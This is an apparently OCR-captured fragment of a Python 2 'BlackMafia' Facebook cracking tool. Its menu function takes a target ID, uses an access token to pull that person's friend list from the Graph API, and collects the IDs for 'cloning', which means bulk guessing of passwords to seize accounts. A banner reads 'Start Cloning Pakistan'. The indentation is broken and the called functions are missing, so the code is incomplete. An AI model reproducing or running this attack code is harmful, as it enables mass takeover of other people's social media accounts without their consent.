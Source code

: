 def pilih_crack():
	peak = raw_input("\n\033[1;91mChoose an Option>>> \033[1;95m")
	if peak =="":
		print "\x1b[1;91mFill in correctly"
		pilih_crack()
	elif peak =="1":
		os.system('clear')
		print logo
		jjt = raw_input("\033[1;96m[+] \033[1;93mEnter ID\033[1;93m: \033[1;97m")
		print "\033[1;95m«-----------------\033[1;91mBlackMafia\033[1;95m---------------»"
		try:
			m = requests.get("https://graph.facebook.com/"+jjt+"?access_token="+toket)
			td = json.loads(m.text)
			print"\033[1;93mName\033[1;93m:\033[1;97m "+td["name"]
		except KeyError:
			print"\x1b[1;91mID Not Found!"
			raw_input("\n\033[1;96m[\033[1;97mBack\033[1;96m]")
			crack()
		print"\033[1;93mGetting IDs\033[1;93m..."
		n = requests.get("https://graph.facebook.com/"+jjt+"/friends?access_token="+toket)
		d = json.loads(n.text)
		for c in d['data']:
			id.append(c['id'])
        elif peak =="2":
	        super()
        elif peak =="3":
	        hack()
        elif peak =="4":
	        black()
        elif peak =="5":
	        mafia()
        elif peak =="6":
	        test()
        elif peak =="7":
	        phone()
        elif peak =="8":
	        mail()
        elif peak =="9":
	        isi()
        elif peak =="10":
	        army()
        elif peak =="11":
                clone_dari_member_group ()
	elif peak =="0":
		menu()
	else:
		print "\x1b[1;91mFill in correctly"
		pilih_crack()
	
	print "\033[1;93mTotal IDs\033[1;93m: \033[1;97m"+str(len(id))
	jalan('\033[1;93mPlease Wait\033[1;93m...')
	titik = ['.   ','..  ','... ']
	for o in titik:
		print("\r\033[1;93mCloning\033[1;93m"+o),;sys.stdout.flush();time.sleep(1)
	print "\n\033[1;97m«-----\x1b[1;91m【To Stop Process Press CTRL+Z】\033[1;97m----»"
	print "\033[1;97m«--------------------\033[1;92m▣\033[1;97m------------------»"
	jalan(' \033[1;93mPlz Wait Cloned Accounts Will Appear Here')
        jalan(' \033[1;95m         Start Cloning Pakistan ')
	print "\033[1;97m«--------------------\033[1;92m▣\033[1;97m------------------»"
	